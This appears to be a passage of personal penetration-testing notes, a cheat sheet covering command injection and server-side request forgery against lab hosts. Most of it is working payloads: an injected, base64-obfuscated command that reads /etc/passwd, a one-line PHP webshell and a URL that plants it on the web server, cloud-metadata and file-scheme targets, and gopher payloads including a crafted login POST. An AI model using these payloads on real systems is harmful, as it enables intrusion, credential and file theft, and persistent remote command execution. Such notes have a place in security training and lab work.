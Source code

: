```
[http://ci-sandbox/php/blocklisted.php?ip=127.0.0.1;`echo%20%22Y2F0IC9ldGMvcGFzc3dkCg==%22%20|base64%20-d`](http://ci-sandbox/php/blocklisted.php?ip=127.0.0.1;`echo%20%22Y2F0IC9ldGMvcGFzc3dkCg==%22%20|base64%20-d`)
```

Simple PHP Webshell (Remember, if you are passing this through an http request, you need to encode!)
```
<pre><?php passthru($_GET['cmd']);?></pre>
```

From the larger example of 
```
http://ci-sandbox:80/php/index.php?ip=127.0.0.1;echo+%22%3Cpre%3E%3C?php+passthru(\$_GET[%27cmd%27]);+?%3E%3C/pre%3E%22+%3E+/var/www/html/webshell.php

```

### SSRF
Testing for SSRF can be tricky and varies largely. Best bet is to start an http server on your kali box and use `http://yourIP/` as a parameter in all requests and see if you get any requests back. Remember to use apache2 to record incoming requests because it can log the user agent most readily.

<b>Retrieving data from local services:

Try to insert `http://localhost` as a parameter (requires a non-blind SSRF) and see if you can enumerate some internal services on the host.

<b>Metadata on Cloud Services
* 169.254.169.254
* metadata.google.internal
* metadata.web200.local(?)

<b>Alternative file schemes
* file:/etc/passwd
* file:///etc/passwd
* file:///c:/windows/win.ini

<b>Gopher Protocol

Requires the user agent to be curl, which is most easily determined via apache2 logs 

Note: you need to double encode all special characters when manually crafting a gopher payload to send in burp

For example
```
gopher://127.0.0.1:80/_POST%20/status%20HTTP/1.1%0a
```
In burp now becomes 
```
gopher%3a%2f%2f127.0.0.1%3a80%2f_POST%2520%2fstatus%2520HTTP%2f1.1%250a
``` 

Another post example to a fictitious login endpoint

```
cv=gopher://localhost:80/_POST%2520/login%2520HTTP/1.1%250aContent-Type%253a%2520application/x-www-form-urlencoded%250aContent-Length%253a%252032%250a%250ausername=admin%2526password=password
```
